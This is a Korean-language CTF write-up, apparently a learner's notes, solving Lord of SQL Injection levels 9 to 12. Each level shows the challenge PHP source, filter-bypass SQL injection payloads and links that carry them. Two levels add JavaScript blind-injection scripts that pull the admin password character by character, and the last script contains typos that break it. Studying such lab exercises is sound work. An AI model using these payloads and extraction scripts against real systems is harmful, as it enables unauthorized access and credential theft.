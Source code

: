9-vampire
====
* 핵심: str-replace는 해당하는 string 오직 한번 replace시킨다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  $_GET[id] = strtolower($_GET[id]);
  $_GET[id] = str_replace("admin","",$_GET[id]); 
  $query = "select id from prob_vampire where id='{$_GET[id]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("vampire"); 
  highlight_file(__FILE__); 
?>
```
* string의 admin을 replace하는데, 프로그래밍을 해보았다면 함수가 한번만 call 됬으므로, 한번만 replace된다는 것을 알 것이다.
    * 그래서, adadminmin->admin으로 filtering되게 ?id=adadminin을 하면 해결된다.
* 답: [링크](https://los.rubiya.kr/chall/vampire_e3f1ef853da067db37f342f3a1881156.php?id=admadminin)

10-skeleton
====
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```
* query의 끝에 1=0이 있어 이를 없애지 않으면 query는 무조건 false를 반환한다
    * 주석이 필요하다 -> #을 사용하자
    * ?pw='or''='' and id<>'guest' # 
* 정답: [링크](https://los.rubiya.kr/chall/skeleton_a857a5ab24431d6fb4a00577dac0f39c.php?pw=%27or%27%27=%27%27%20and%20id%3C%3E%27guest%27%20%23%20)

11-golem
====
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```
* equal이 filter에 있을때, 사용할 수 있는 기호는 다음과 같다
    * <>, <, >
    * select id from prob_golem where id='guest' and pw='' || id<>'guest' && pw > ''를 먼저 구현하여 등호 기호를 사용하지 않고 admin을 불러왔다.
    * 이후, length 함수는 사용할 수 있으므로, length(pw) > n 구문을 사용하여 pw의 길이를 알아냈다.
        * select id from prob_golem where id='guest' and pw='' || id<>'guest' && length(pw)>7 && pw > ''
        * 에서
        * select id from prob_golem where id='guest' and pw='' || id<>'guest' && length(pw)>8 && pw > ''
        * 로 넘어갈때 false가 반환되었다.
    * pw의 길이는 8이다.
* substr을 통해 pw를 일일이 맞혀야 하지만, substr이 filtering되었으므로, 이를 대체할 수 있는 명령어를 사용해야 한다.
    * substring, mid, left, right
* 이후 다음 스크립트 사용하여 풀이
    ```js
    {
      function genArray(start, end) {
        let a=[];
        let i;
        for (i=start; i <= end; ++i) {
            a.push(i);
        }
        return a;
      }
      let chars=genArray(0, 150); // [0~9, A~Z, a~z] 포함
      const url='https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php';
      let i;
      for (i=1;i<=8;i++) {
        chars.forEach(async (charac) => {
          fetch(`${url}?pw=%27%20||%20id<>%27guest%27%20%26%26%20ascii(substring(pw,${i},${i}))>${charac-1}%20%26%26%20ascii(substring(pw,${i},${i}))<$ {charac+1}%20%26%26%20pw%20>%20%27`)
            .then((res) => res.text())
            .then((res) =>{
              if(res.includes('<h2>Hello admin</h2>')) {
                console.log(i, charac, String.fromCharCode(charac));
              }
            });
        });   
      }
    }
    ```
* 정답: (링크)[https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php?pw=77d6290b]

12-darkknight
====
* ?no=2%20or%20no>1
    * admin 자격 취득(3-cobolt 참고)
* ?no=2%20or%20no>1%20and%20length(pw)%20>8
    * pw의 길이가 8인것을 획득

```js
function genArray(start, end) {
  let a=[];
  let i;
  for (i=start; i <= end; ++i) {
      a.push(i);
  }
  return a;
}
function toHex(d) {
  return ("0"+(Number(d).toString(16))).slice(-2)toUpperCase();
}
let chars=genArray(0, 150); // [0~9, A~Z, a~z] 포함
const url='https://los.rubiya.kr/challdarkknight_5cfbc71e68e09f1b039a8204d1a81456.php';
let i;
for (i=1;i<=8;i++) {
  chars.forEach(async (charac) => {
    fetch(`${url}?no=2%20or%20no>1%20and%20ord(mid(pw,${i}${i}))>${charac-1}%20and%20ord(mid(pw,${i},${i}))<{charac+1}`)
      .then((res) => res.text())
      .then((res) =>{
        if(res.includes('<h2>Hello admin</h2>')) {
          console.log(i, charac, String.fromCharCod(charac));
        }
      });
  });   
}
```